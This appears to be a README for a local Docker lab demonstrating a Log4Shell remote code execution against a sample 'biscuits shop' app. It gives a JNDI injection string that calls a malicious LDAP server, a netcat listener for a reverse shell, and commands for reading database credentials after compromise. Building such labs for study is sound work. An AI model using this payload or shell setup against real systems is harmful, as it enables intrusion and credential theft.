 ## Starting up the exploit

Run, in this order, the following commands : 

```bash
docker compose up -d database       # wait for the database to spinup
docker compose up application       # before launching application.
docker compose up snoopy-http-server
docker compose up snoopy-ldap-server
```

Connect to `http://localhost:8080` to access the biscuits shop frontend. 

Do the RCE via `${jndi:ldap://snoopy-ldap-server:1389/a}` 
Connect database container from shell via `mysql -h 127.0.0.1 -P 3306 -u root -p biscuits`
Query the spring LDAP authentication server via `ldapsearch -x -D "uid=ben,ou=people,dc=unige,dc=ch" -W -H ldap://0.0.0.0:8389 -b "ou=people,dc=unige,dc=ch" -s sub "uid=*"`
Query the malicious LDAP server via `ldapsearch -H ldap://0.0.0.0:1389 -b "dc=example,dc=com" -s sub -x "(objectclass=*)"`
Access the malicious http server at `http://localhost:8000`

### Remote Shell Exploit

Startup a netcat server to listen for an incoming TCP remote shell connection `docker run snoopy-netcat-listener`, once pwned,
you can get .env values via, 
```
echo $MYSQL_HOST
mysql-database
echo $MYSQL_ROOT_PASSWORD 
secret
```

Dependencies : 

Working install of docker and docker compose. 